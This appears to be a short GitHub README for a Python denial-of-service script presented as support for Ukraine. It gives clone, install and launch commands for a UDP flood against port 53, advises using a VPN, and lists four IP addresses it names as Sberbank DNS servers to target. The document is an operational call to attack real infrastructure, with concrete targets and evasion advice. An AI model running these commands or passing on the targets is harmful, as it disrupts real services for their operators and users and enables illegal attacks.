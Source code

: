 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>

<em><h5 align="center">(Code Lang - Python 3)</h5></em>


<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started


**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently sberbaank russian dns targets
```console
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






